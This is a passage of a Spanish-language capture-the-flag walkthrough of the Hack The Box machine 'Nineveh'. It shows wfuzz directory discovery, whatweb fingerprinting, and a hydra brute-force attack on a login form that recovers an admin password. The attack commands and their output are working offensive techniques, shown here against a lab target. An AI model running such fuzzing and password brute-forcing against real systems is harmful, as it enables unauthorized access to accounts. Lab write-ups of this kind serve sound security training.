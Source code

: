 ```bash
❯ wfuzz -c -w /opt/diccionario_medio.txt -t 200 -L --hc 404 http://nineveh.htb/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://nineveh.htb/FUZZ
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000003007:   200        1 L      3 W        68 Ch       "department"
```

Me reporta el directorio /department en el cual hay un login

```bash
❯ whatweb http://nineveh.htb/department/login.php
http://nineveh.htb/department/login.php [200 OK] Apache[2.4.18], Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.43], PasswordField[password], Title[[Nineveh Department]]
```

Tambien fuzeo en la pagina que corre en el puerto 443(https)

```bash
❯ wfuzz -c -w /opt/diccionario_medio.txt -t 200 -L --hc 404 https://nineveh.htb/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nineveh.htb/FUZZ
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000000834:   200        485 L    974 W      11430 Ch    "db"
```

Otro panel de inicio de sesion, lo que se me ocurre es probar a hacer fuerza bruta en ambos y esperar:

```bash
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password"
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=admin&password=^PASS^:Invalid Password
[STATUS] 1935.00 tries/min, 1935 tries in 00:01h, 14342464 to do in 123:33h, 16 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
```

